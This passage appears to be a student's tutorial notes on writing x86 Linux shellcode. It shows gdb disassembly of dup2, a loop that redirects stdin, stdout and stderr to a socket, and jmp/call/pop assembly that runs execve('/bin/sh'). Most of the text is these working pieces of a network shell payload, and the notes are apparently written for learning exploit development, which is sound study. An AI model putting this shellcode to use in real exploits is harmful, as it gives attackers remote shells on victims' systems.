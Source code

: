 ```assembly
```

So now we gonna call 3 times `dup2` so we can maybe use a loop to decrease the number of instructions :-D. and furthermore when we disassemble `dup2` in **gdb** we can see that `dup2` use `%ecx` and `%edx` before `int 0x80` (to see the int 0x80 instruction we have to disas the call : `disas *0x80d6904`). So to resume we'll need:
	
+ `%eax` for the sys_call
+ `%ecx` for the stdin, stdout, stderr
+ `%edx` for the socket
+ `%ebx` is free to use for the loop but as %ecx = 2, 1, 0

we can use `%ecx` and use a `jns` (jump till %ecx > 0)
	
```sh
	(gdb) disas dup2
	Dump of assembler code for function dup2:
	   0x08053fb0 <+0>:	mov    %ebx,%edx
	   0x08053fb2 <+2>:	mov    0x8(%esp),%ecx
	   0x08053fb6 <+6>:	mov    0x4(%esp),%ebx
	   0x08053fba <+10>:	mov    $0x3f,%eax
	   0x08053fbf <+15>:	call   *0x80d6904
```
```assembly
	;dup2(socket, i) where i = 0, 1 then 2;
	mov %eax, %ebx      # %ebx is new_sockfd now
	xor %eax, %eax      # why do I need this ?
	xor %ecx, %ecx
	mov $0x2, %cl     # count and %ecx = 2, 1, 0
	dup2:
	  movb $0x3f, %al   # dup2()
	  int $0x80     # call dup2()
	  dec %ecx    # decr %ecx
	  jns dup2
```
then we take the `execve()` see in class:

```assembly
	#execve("/bin/sh", NULL, NULL);
	jmp jtoc
	jtop:
	popl  %esi
	xorl  %eax,%eax   # Zero %eax
	#movb %al,0x7(%esi)   # NULL terminate /bin/sh
	push  %eax      # NULL after pointer below
	push  %esi      # Create pointer to array
	xorl  %edx, %edx    # NULL in %edx
	movl  %esp,%ecx   # Address of array in %ecx
	movl  %esi,%ebx   # Address of /bin/sh in %ebx
	movb  $0xb,%al    # Set up for execve call in %eax
	int $0x80 

	jtoc:
	  call  jtop
	  .string "/bin/sh"
```
